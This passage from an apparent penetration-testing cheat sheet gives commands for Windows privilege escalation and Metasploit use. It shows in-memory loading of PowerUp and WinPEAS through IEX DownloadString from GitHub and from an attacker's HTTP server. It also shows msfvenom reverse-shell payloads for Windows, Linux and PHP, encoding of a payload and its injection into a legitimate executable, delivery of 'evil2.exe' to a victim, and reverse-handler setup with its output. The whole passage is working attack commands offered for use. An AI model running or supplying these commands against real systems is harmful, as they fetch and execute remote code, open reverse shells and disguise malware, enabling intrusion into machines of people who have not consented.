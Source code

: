 *PowerUp.ps1 without touching Disk (load module directly into memory)*

	PS C:\> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Privesc/PowerUp.ps1")
	cd /usr/share/windows-resources/powersploit/Privesc/ | python3 -m http.server 9000		#get from LAN
	PS victim: IEX(New-Object Net.WebClient).DownloadString(‘http://<kali_ip>:9000/PowerUp.ps1’)
	cmd victim: C:\> powershell –exec bypass
	PS C:\> Import-Module PowerUp.ps1
	PS C:\> . .\PowerUp.ps1
	PS C:\> Invoke-AllChecks

**[WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)**
	
	PS victim: IEX (New-Object Net.WebClient).DownloadString('https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/winPEAS/bin/Obfuscated%20Releases/winPEASany.exe?raw=true')
	PS victim: . .\winpeas.exe


## 15. Metasploit

**msfvenom**	

	msfvenom -p windows/meterpreter/reverse_https LHOST=10.10.10.160 LPORT=443 -f exe -o https_rev.exe  	#https rev
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.160 LPORT=4445 -f exe -o evil2.exe  		#tcp rev
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.160 LPORT=4445 -f exe -e x86/shikata_ga_nai -i 9 -x ori_idm.exe -o evil_idm.exe  #payload injection into binary
	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.10.160 LPORT=443 -f elf > revshell.elf  	#linux revshell
	msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.10.160 LPORT=443 -f raw > rev_shell.php   		#PHP revshell
	
	python3 -m http.server 9000
	PS victim: Invoke-WebRequest -Uri http://10.10.10.160:9000/evil2.exe -OutFile evil2.exe
	
	msf > use exploit/multi/handler
	msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
	payload => windows/meterpreter/reverse_tcp
	msf exploit(handler) > set lhost 10.10.10.160
	lhost => 10.10.10.160
	msf exploit(handler) > set lport 4445
	lport => 4445
	msf exploit(handler) > run

	[*] Started reverse handler on 10.10.10.160:4445
	[*] Starting the payload handler...

	msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 10.10.10.160;set LPORT 4445;run;"	#multi handler one liner

	cmd victim: evil2.exe
	PS victim: PS C:\windows\temp> . .\evil2.exe
	
